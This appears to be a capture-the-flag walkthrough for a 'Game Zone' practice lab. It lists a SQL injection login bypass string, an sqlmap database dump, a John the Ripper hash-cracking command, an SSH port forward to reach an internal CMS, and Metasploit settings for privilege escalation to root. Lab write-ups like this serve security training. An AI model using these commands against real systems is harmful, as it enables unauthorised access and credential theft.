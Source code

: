 # Game Zone

> Nashia Holloway | May 2nd 2020

## Task 1 Deploy

**2. What is the name of the large cartoon avatar holding the sniper on the forum?**

```
Agent 47
```

## Task 2 Gain Access via SQLi

```
' or 1=1 -- -
```

## Task 3 Using SQLMap

```
sqlmap -r request.txt --dbms=mysql --dump
```

request.txt is the request intercepted by BurpSuite when attempting to search something in the webapp.

## Task 4 Cracking a Passowrd with JohnTheRipper

**2. What is the cracked password?**

```
sudo john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```

hash.txt just holds the hash found in the database dump.

**3. SSH into the machine. What is the user flag?**

```
ssh agent47@$IP
```

## Task 5 Exposing Services with Reverse SSH Tunnels

**1. How many TCP sockets are running?**

```
ss -tulpn
```

![](ss.png)

**2. What is the name of the exposed CMS?**

```
ssh -L 10000:localhost:10000 agent47@$IP
```

## Task 6 Priv Esc with Metasploit

**1. What is the root flag?**

![](exploits.png)

We use number 4. Set RHOSTS to localhost, and add username and password we have. **Make sure to set SSL to FALSE**. Set LHOST to tun0.

```
cat /root/root.txt
```

